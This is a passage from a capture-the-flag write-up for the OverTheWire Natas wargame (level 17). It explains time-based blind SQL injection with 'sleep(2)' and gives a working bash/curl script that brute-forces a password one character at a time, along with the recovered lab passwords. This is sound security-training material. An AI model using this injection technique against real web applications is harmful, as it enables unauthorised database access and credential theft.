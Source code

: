 ```bash
done
echo $password;
done
```

Running this we eventually get our password

```
8Ps3H0GWbn5rd9S7GmAdgQNdkhPkq9cw
```

### [natas17](http://natas17.natas.labs.overthewire.org/)

natas17:8Ps3H0GWbn5rd9S7GmAdgQNdkhPkq9cw

The serverside code for level 17 is the exact same as level 15, but the echo statements that tell us if your query has succeeded have been commented out. So if we want to take the same style of approach to the problem we'll need to find a different way to determine if our queries have passed.

We'll add a `and sleep(2)` to the end of our query, this will only run in the case that the `like binary` statement checking the password passes, so if we guess the right letter the query will take two seconds longer to respond, which we can track. Here's the new script

```bash
#!/usr/bin/env bash

# run until the same password appears twice

password='';
echo "starting brute force attack";

while true; do
    for f in {a..z} {A..Z} {0..9}; do
	reqtime=$(curl -o /dev/null -s -w '%{time_total}\n' -u natas17:8Ps3H0GWbn5rd9S7GmAdgQNdkhPkq9cw 'http://natas17.natas.labs.overthewire.org/index.php?debug&username=natas18%22%20and%20password%20like%20binary%20%27'$password$f'%25%27%20and%20sleep%282%29+%23')
	if [[ $reqtime > 2 ]]
	then
	    password=$password$f
	    break
	fi
    done
    echo $password;
done
```

We run this and slowly are given our password

```
xvKIqDjy4OPv7wCRgDlmj0pFsCsDjhdP
```